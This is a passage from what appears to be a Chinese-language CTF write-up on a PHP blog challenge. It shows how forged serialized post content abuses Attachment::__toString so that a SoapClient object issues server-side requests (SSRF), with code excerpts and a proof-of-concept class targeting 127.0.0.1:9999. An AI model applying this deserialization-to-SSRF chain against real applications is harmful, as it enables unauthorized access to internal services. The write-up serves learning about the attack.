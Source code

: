 所以插入post的时候，在content字段伪造`$serializedobject＄序列化的数据`,在显示post的时候就会成功的反序列化出任意类。

### 0x3 反序列化触发SSRF

可以进行任意类伪造了，但是伪造什么类呢，根据`/miniProxy`目录里面的代码，很容易想到需要伪造SoapClient,进行SSRP的，接下来就是找怎么触发SoapClient来发请求了。

看展示post的代码：
```php
#filename:default.php
foreach($posts as $p) {
    echo $p;
    echo "<br><br>";
}
```
这里的`$p`是`Post`类的示例，所以会调用`Post`类的`__toString`函数：

```php
#filename:post.php
public function __toString() {
    $str = "<h2>{$this->title}</h2>";
    $str .= $this->content;
    $str .= "<hr>Attachments:<br><il>";
    foreach ($this->attachment as $attach) {
        $str .= "<li>$attach</li>";
    }
    $str .= "</il>";
    return $str;
}
```
在这里展示`$this->attachment`的时候，又会调用`Attachment`的`__toString`函数：

```php
#filename:post.php

public function __toString() {
    $str = "<a href='{$this->url}'>".basename($this->url)."</a> ($this->mime ";
    if (!is_null($this->za)) {
        $this->za->open("../".$this->url);
        $str .= "with ".$this->za->numFiles . " Files.";
    }
    return $str. ")";
}
```

注意这里的`$this->za->open()`操作，如果我们伪造`$this->za`为`SoapClient`类的实例，在这里调用`open`函数的时候，就会触发`SoapClient`的`__call`函数，发送一次请求。

所以利用思路是，伪造`content`为`Attachment`实例，其中的`$this->za`是一个`SoapClient`实例,那么在展示`content`的时候就会触发`Attachment`的`__toString`操作，从而触发`SoapClient`的`__call`函数。

poc如下：

```php

class Attachment {
    private $url = NULL;
    private $za = NULL;
    private $mime = NULL;

    public function __construct() {
        $this->url = "test";
        $this->mime = "test"
            $this->za = new SoapClient(null,array('location' => "http://127.0.0.1:9999",
            'uri'=> "http://test-uri/"));
        }
}

$attachment = new Attachment();
```